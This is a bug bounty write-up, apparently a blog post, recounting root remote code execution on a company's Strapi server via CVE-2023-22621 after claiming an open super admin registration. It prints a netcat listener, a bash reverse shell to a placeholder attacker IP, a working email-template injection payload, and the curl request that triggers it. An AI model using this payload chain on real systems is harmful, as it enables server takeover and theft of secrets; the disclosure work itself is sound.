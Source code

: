 ```yaml
---
title: "Remote code execution in a billion-dollar publicly traded company"
date: 2024-02-10T21:43:57+08:00
author: ted
draft: false
thumbnail: https://tedmdelacruz.github.io/strapi-rce-thumbnail.PNG?t=123
---
```


![Thumbnail](/strapi-rce-thumbnail.PNG)

There are 4 things that need to happen in order to find [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) in the wild:
 
- You need to find a website that is powered by [Strapi](https://strapi.io).
- The _super admin_ for this website, _somehow_, **has not been claimed yet**.
- The version of Strapi should be _at least_ **4.5.5 and below**.
- No other hacker had _somehow_ seen any of the three aforementioned scenarios first.

The stars have aligned in my favor, and with this [CVE](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures), I managed to fully take over one of the websites of a **billion-dollar company listed on the New York Stock Exchange**.

And I happen to be invited to their private [bug bounty program](https://en.wikipedia.org/wiki/Bug_bounty_program).

# Reconnaissance

I have a server that pings me of new subdomains of this company every 5pm Manila time so I can check them out after work.

Usually I don't find anything in my probes, and this one: **strapi.[redacted].com** also didn't trigger any alarms at first.
My automations pinged me about the subdomain of this website around early December 2023, but this website caught my attention during a manual inspection of the company assets that I did around early February 2024.

I couldn't believe it at first, but the _super admin_ registration for this website was open. And _somehow_, no other hacker had seen this before me:

![Admin Registration](/strapi-rce-admin.PNG)

Realizing this was nothing short of exhilarating, since it’s been months since I got a paid bug bounty.

# Escalation

Claiming the super admin of a website is nice and dandy, but like most other security researchers, I asked myself: "How can I escalate this to something even more severe?".

The next step was obvious; I googled 'strapi cve'. One particular CVE instantly caught my attention: **[CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621)** which allows for an authenicated user to execute the highly coveted **[_remote code execution_](https://en.wikipedia.org/wiki/Arbitrary_code_execution).**

The CVE ticks all of the boxes:
- You need to have super admin access (I got that) ✔
- The version of Strapi should be 4.5.5 and below (This website is on Strapi v3.6.0) ✔

# Exploitation

The CVE allows for a remote code execution via a [reverse shell](https://wiki.ubuntu.com/ReverseShell), which requires an attacker server waiting for incoming TCP connection from a victim server.

## Preparing the attacker server

I whipped up a small Digital Ocean droplet and using [netcat](https://en.wikipedia.org/wiki/Netcat) I had it listen to incoming TCP connections in port `1234`:

```sh
$ nc -lvnp 1234
```

- `-l` Instructs `netcat` to listen for incoming TCP connection rather than initiating a connection to a remote host.
- `-v` Produces more verbose output.
- `-n` Toggles `netcat` to not do any DNS or service lookups.
- `-p` Specifies the port to listen to.

## Executing the reverse shell payload

The reverse shell payload that worked for me after initial tests in my local network was the following:

```sh
bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'
```

Combining this with the NodeJs exploit described in the CVE, we get the following payload:

```js
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/bash","args":["/bin/bash","-c","bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Now, [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) exploits an email template bypass in Strapi. Simply put, it runs when an attempt to send an email is sent. The initial configuration of Strapi allows admins to update the email confirmation template. This is where the payload is saved:

![Strapi RCE payload](/strapi-rce-payload.PNG)

## Spawning a shell as `root` in the compromised server

This exploit runs when a confirmation email is sent, so an API call that registers a new user to Strapi in order to execute the reverse shell is necessary. This is a basic cURL command for that purpose:

```sh
$ curl -vvv -X POST -H 'Content-Type: application/json' -d '{"email":"tedminfosec+rce1@gmail.com", "username":"rcetrigger1", "password": "Test1234!"}' https://strapi.[redacted].com/auth/local/register/
```

Upon execution of the cURL command, Strapi attempts to validate the email template. The exploit then takes advantage of a template validation bypass and runs the reverse shell payload via `node`. The reverse shell then initiates a TCP connection to my attacker server, which spawns a `bash` session.

Now, the attacker machine has logged in to the server as `root`, **giving me total control of the server**:

```sh
root@[redacted]:/home/[redacted]/project/strapi# ls
ls
api    config      favicon.ico   package.json  README.md
build  extensions  node_modules  public        yarn.lock
```

In order to prove the RCE, I left an inconspicuous text file in the server at `/root/tedminfosec.txt`:

```sh
root@[redacted]:/home/[redacted]/project/strapi# cat /root/tedminfosec.txt
hello from tedminfosec@wearehackerone.com
```

# Impact

Without disclosing too much about the compromised server, it contains highly sensitive keys and secrets that could have allowed a malicious actor to pivot to other, more sensitive assets in the company's internal network.

The malicious actor could have done more than just defacing a website or use it to launch phishing campaigns.

Since privilege escalation at this point would break the _rules of engagement_, I decided to stop testing from there.

# Responsible disclosure

Once that's done, I took my time to write a detailed vulnerability report and submitted it to the bug bounty program. It was triaged as **Critical**:

![Strapi RCE triage](/strapi-rce-triage.jpg)

Now that's how I compromised a server of a company worth more than a billion dollars.
